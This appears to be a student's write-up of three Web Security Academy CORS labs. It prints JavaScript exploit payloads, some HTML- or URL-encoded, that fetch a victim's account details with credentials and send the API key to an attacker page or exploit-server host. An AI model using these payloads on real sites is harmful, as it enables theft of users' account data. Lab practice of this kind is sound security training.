 ## First Lab
I did everything as I was supposed to do, yet I could not get the API of admin. Nevertheless, I will attach the things I have done and I honestly don't know why exploit server did not return admin api. 

The script that I used:
  >
>
    <script>
        var req = new XMLHttpRequest();
        req.open("get","0a5800e0044edab38085d064001d00b8.web-security-academy.net/accountDetails",true);
        
        req.onload = () => {
            window.location.href = "/malicious?key=" + req.responseText;
        }
        
        req.withCredentials = true;
        req.send();
    </script>
![]()
![]()
## Second Lab
Second lab was almost the same as the first one, fortunately I got it working. The only difference was using an <iframe> tag and using the sandbox property to contain our malicious code in it, also we had to encode our script first, in order to avoid quotation collisions in a code. As a result, we got our api of admin, which we submitted in the home page of lab source page.
Source code: 
>                <iframe 
                    sandbox="allow-forms allow-scripts allow-top-navigation"
                    srcdoc="
                    &#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x76;&#x61;&#x72;&#x20;&#x72;&#x65;&#x71;&#x20;&#x3d;&#x20;&#x6e;&#x65;&#x77;&#x20;&#x58;&#x4d;&#x4c;&#x48;&#x74;&#x74;&#x70;&#x52;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x28;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x6f;&#x70;&#x65;&#x6e;&#x28;&#x22;&#x67;&#x65;&#x74;&#x22;&#x2c;&#x22;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x30;&#x61;&#x62;&#x34;&#x30;&#x30;&#x39;&#x66;&#x30;&#x33;&#x65;&#x34;&#x33;&#x36;&#x61;&#x66;&#x38;&#x35;&#x64;&#x35;&#x32;&#x36;&#x34;&#x39;&#x30;&#x30;&#x37;&#x38;&#x30;&#x30;&#x62;&#x38;&#x2e;&#x77;&#x65;&#x62;&#x2d;&#x73;&#x65;&#x63;&#x75;&#x72;&#x69;&#x74;&#x79;&#x2d;&#x61;&#x63;&#x61;&#x64;&#x65;&#x6d;&#x79;&#x2e;&#x6e;&#x65;&#x74;&#x2f;&#x61;&#x63;&#x63;&#x6f;&#x75;&#x6e;&#x74;&#x44;&#x65;&#x74;&#x61;&#x69;&#x6c;&#x73;&#x22;&#x2c;&#x74;&#x72;&#x75;&#x65;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x6f;&#x6e;&#x6c;&#x6f;&#x61;&#x64;&#x20;&#x3d;&#x20;&#x28;&#x29;&#x20;&#x3d;&#x3e;&#x20;&#x7b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x77;&#x69;&#x6e;&#x64;&#x6f;&#x77;&#x2e;&#x6c;&#x6f;&#x63;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x2e;&#x68;&#x72;&#x65;&#x66;&#x20;&#x3d;&#x20;&#x22;&#x2f;&#x6d;&#x61;&#x6c;&#x69;&#x63;&#x69;&#x6f;&#x75;&#x73;&#x3f;&#x6b;&#x65;&#x79;&#x3d;&#x22;&#x20;&#x2b;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x72;&#x65;&#x73;&#x70;&#x6f;&#x6e;&#x73;&#x65;&#x54;&#x65;&#x78;&#x74;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x7d;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x77;&#x69;&#x74;&#x68;&#x43;&#x72;&#x65;&#x64;&#x65;&#x6e;&#x74;&#x69;&#x61;&#x6c;&#x73;&#x20;&#x3d;&#x20;&#x74;&#x72;&#x75;&#x65;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x73;&#x65;&#x6e;&#x64;&#x28;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;"
                    ></iframe>

![]()
![]()
![]()

## Third Lab
We did find the Xss vulnerability through product id injection and found CORS vulnerability by trying to find the filtered origin source and we also have achieved that. However, when it came down to injecting the encoded code as we did in a second lab, we did not obtain any results and same as in a first lab work, I do not know why. 
Source code(we encoded the script code for cors vulnerability into xss code injection, cause it is url): 
>     <script>
        window.location = "http://stock.0ad700780427e2f6914a1ca600540017.web-security-academy.net/?productId=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%20%20%20%20%76%61%72%20%72%65%71%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%0a%20%20%20%20%20%20%20%20%72%65%71%2e%6f%70%65%6e%28%22%67%65%74%22%2c%22%68%74%74%70%73%3a%2f%2f%30%61%64%37%30%30%37%38%30%34%32%37%65%32%66%36%39%31%34%61%31%63%61%36%30%30%35%34%30%30%31%37%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%22%2c%74%72%75%65%29%3b%0a%20%20%20%20%20%20%20%20%0a%20%20%20%20%20%20%20%20%72%65%71%2e%6f%6e%6c%6f%61%64%20%3d%20%28%29%20%3d%3e%20%7b%0a%20%20%20%20%20%20%20%20%20%20%20%20%77%69%6e%64%6f%77%2e%6c%6f%63%61%74%69%6f%6e%20%3d%20%22%20%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%64%30%30%30%65%64%30%34%65%36%65%32%66%63%39%31%64%38%31%62%34%36%30%31%30%38%30%30%35%36%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6b%65%79%3d%22%20%2b%20%72%65%71%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%0a%20%20%20%20%20%20%20%20%7d%0a%20%20%20%20%20%20%20%20%0a%20%20%20%20%20%20%20%20%72%65%71%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%0a%20%20%20%20%20%20%20%20%72%65%71%2e%73%65%6e%64%28%29%3b%0a%20%20%20%20%3c%2f%73%63%72%69%70%74%3e&storeId=1"
    </script>
![]()
![]()
![]()
